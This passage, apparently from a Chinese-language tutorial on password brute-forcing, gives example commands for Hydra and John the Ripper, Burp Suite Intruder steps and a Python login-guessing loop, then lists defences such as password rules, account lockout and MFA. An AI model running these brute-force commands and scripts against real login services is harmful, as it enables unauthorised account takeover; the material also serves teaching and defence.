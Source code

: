 ### 4.1 Hydra命令示例

```bash
hydra -l admin -P /path/to/dictionary.txt 192.168.1.1 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"
```

### 4.2 John the Ripper命令示例

```bash
john --wordlist=/path/to/dictionary.txt /path/to/passwordfile.txt
```

### 4.3 Burp Suite配置

1. 打开Burp Suite，配置代理。
2. 使用Intruder模块，设置攻击类型为Sniper。
3. 配置Payloads，选择字典文件。
4. 开始攻击，监控结果。

### 4.4 Python脚本示例

```python
import requests

url = "http://target.com/login"
username = "admin"
passwords = ["password1", "password2", "password3"]

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(url, data=data)
    if "Invalid" not in response.text:
        print(f"Valid password: {password}")
        break
```

## 5. 防护策略

### 5.1 密码策略

- 强制使用复杂密码，包含大小写字母、数字和特殊字符。
- 设置密码最小长度，如12个字符。
- 定期更换密码。

### 5.2 账户锁定

- 设置账户锁定策略，如连续5次登录失败后锁定账户。
- 锁定时间设置为30分钟或更长。

### 5.3 多因素认证

- 启用多因素认证（MFA），增加账户安全性。
- 使用短信验证码、硬件令牌或生物识别技术。
